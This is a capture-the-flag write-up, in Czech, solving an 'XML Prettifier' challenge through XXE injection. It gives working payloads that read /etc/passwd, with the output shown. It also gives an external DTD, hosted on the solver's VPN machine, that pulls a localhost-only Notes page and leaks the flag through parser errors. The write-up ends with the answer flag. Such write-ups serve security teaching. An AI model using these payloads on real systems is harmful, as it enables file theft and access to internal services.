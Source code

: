 # XML Prettifier (1)

## Zadání

Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere on the web.

Find the crucial information on webpage <http://prettifier.mysterious-delivery.tcc:50000> .

May the Packet be with you!

## Nápovědy (Hints)

1\. Use VPN to get access to the server.

## Řešení

Na zobrazené stránce ze zadání je v menu položka `Notes`, která ale nejde zobrazit s chybou

```text
Forbidden

IP filter is active, content is accessible only from localhost.
```

Dále je tam odkaz <http://prettifier.mysterious-delivery.tcc:50000/prettier> na formátovač XML kódu.

Zkusíme, jestli funguje a zadáme `<a><b>c</b></a>`. Výsledkem je

```xml
<a>
  <b>c</b>
</a>
```

Pokud zadáme nevalidní XML, například `<a>`, je zobrazena chyba

`<string>:1:4:FATAL:PARSER:ERR_TAG_NOT_FINISHED: Premature end of data in tag a line 1`

Útok tedy bude směřovat přes `XML External Entity (XXE) Injection Payload List`, viz např zde <https://github.com/payloadbox/xxe-injection-payload-list>.

---
Zkusíme

```xml
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
</userInfo>
 ```

 a dostaneme

```xml
<userInfo>
  <firstName>John</firstName>
  <lastName>Doe</lastName>
</userInfo>
```

Jsme tedy na správné cestě.

---
Zkusíme načíst seznam uživatelů z `/etc/passwd`

```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

a dostaneme

```xml
<userInfo>
  <firstName>John</firstName>
  <lastName>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
</lastName>
</userInfo>
```

Načítání souborů tedy funguje. Na úvodní stránce je odkaz v menu `Notes`, který je přístupný jen z lokálního počítače. Měl by tedy být čitelný přímo serverem.

---
Zkusíme ho načíst pomocí XML

```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "http://127.0.0.1:50000/notes"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

Server však vrátí chybu

```text
http://127.0.0.1:50000/notes:3:2:FATAL:PARSER:ERR_NAME_REQUIRED: StartTag: invalid element name http://127.0.0.1:50000/notes:13:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 12 and head http://127.0.0.1:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 9 and html http://127.0.0.1:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NOT_FINISHED: Premature end of data in tag meta line 8 <string>:4:17:FATAL:PARSER:ERR_UNDECLARED_ENTITY: Entity 'ent' failed to parse 
```

Zpracování probíhá tak, že se nejdříve načte obsah stránky do XML a pak se spustí jeho formátování, které však selže.

Zkusíme vložit obsah stránky `Notes` přímo do `<!DOCTYPE`

```xml
<!DOCTYPE foo [
  <!ENTITY % notes SYSTEM "http://127.0.0.1:50000/notes">
  <!ENTITY % notes2 "<!ENTITY &#x25; test SYSTEM '%notes;'>">
]>
<a>
</a>
```

To však skončí s chybou

```text
<string>:3:61:FATAL:PARSER:ERR_ENTITY_PE_INTERNAL: PEReferences forbidden in internal subset 
```

Je potřeba tedy část načíst externě pomocí spuštění WEB serveru na mojí IP VPN adrese, ze které si XML Prettifier stáhne soubor, který zpracuje.

---
XML do prettifieru

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://10.200.0.10:8000/notes.xml">
  %xxe;
]>
```

Soubor `notes.xml` hostovaný na VPN klientovi

```xml
<!ENTITY % notes SYSTEM "http://127.0.0.1:50000/notes">
<!-- xxxxxxxxxxxxxxxxxxxxxxxx -->
<!ENTITY % notes2 "<!ENTITY &#x25; test SYSTEM '%notes;'>">
%notes2;
```

Ta XML poznámka tam musí být kvůli nějakému cachování XML parseru. V chybovém výpisu už je přítomen obsah stránky `Notes`, která obsahuje hledaný flag.

## Flag

`FLAG{GG53-5U3w-VT8F-qB31}`
